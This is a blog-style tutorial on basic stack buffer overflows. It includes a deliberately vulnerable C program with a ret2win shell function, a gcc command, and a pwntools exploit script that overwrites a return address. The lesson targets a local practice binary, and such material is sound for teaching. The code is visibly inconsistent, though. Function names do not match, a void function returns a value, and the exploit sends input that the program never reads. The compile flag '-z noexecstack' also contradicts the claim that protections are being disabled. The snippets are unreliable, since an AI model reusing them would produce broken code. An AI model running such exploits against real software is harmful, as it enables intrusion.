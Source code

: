 +++
author = "Emily Miller"
title = "How to: Basic buffer overflows without stack protections"
date = "2025-02-10"
description = """This is a simple guide on how to perform basic buffer
overflows, including an example exploit script."""
tags = [  ]
+++

Kind of starting a little basic, but what is a buffer overflow? Effectively,
when the program is expecting a certain amount of data to be written, and more
data than that gets written, *overflowing* the buffer. When done on the stack
(the most basic case), this is often called *stack smashing* (likely popularized
by the amazing stack canary message "**** stack smashing detected ****").

For instance, if our memory looks something like below:

`| Other function memory (variables, etc.) | Buffer | More function memory |
return address |`

What we can do to gain control flow is write through that Buffer and the
function memory and overwrite the return address. Often, this occurs in ret2win
style challenges, where we need to return to some win function.

Lets take the following code as our example:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
	print_quotes(argv[1]);
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

The example above looks a little convoluted, and I've done that because that's
what real buffer overflows look like. 99% of the time, these come from the
programmer writing some piece of code to do some small task (in this case
wrapping some string in quotes), and forgetting to account for issues that may
arise with how things interact with it. The more experienced among you may notice
a second vulnerability lurking in this program, but we'll cover that another
time.

Note if you want to follow at home, you will need to compile with stack
protections disabled, which can be done like `gcc -fno-stack-protector -z
noexecstack -no-pie -o vulnerable_program vulnerable_program.c` (Take a moment
to notice just how many things we're having to disable in order to make this
work --- this is something that rarely happens in modern programs, which is why
more advanced exploitation techniques are usually needed).
`

Here, we can use a very simple exploit to attack it:

```python
from pwn import *

# Hacker defined parameters
process_name = "./vulnerable_program"
offset = 64 # Placeholder, you'll need to find this using GDB
win_address = 0x123456 # You get this from GDB as well

# Calculate our payload
payload = b"A"*offset + p64(win_address) # <-- standard buffer overflow payload

# Exploit
p = process(process_name)
p.sendline(bytes(str(offset+8), "utf-8"))
p.sendline(payload)

# Reap the benefits
data = p.interactive()
```
Another important thing to keep in mind is those parameters need to be
determined by you, the attacker. There are ways of getting around this,
including automatic static analysis of the binary (some of which can be done in
`pwntools`, albeit with some reliability issues) and fuzzing, but that's a topic
to explore on your own as you gain more exploit development experience.
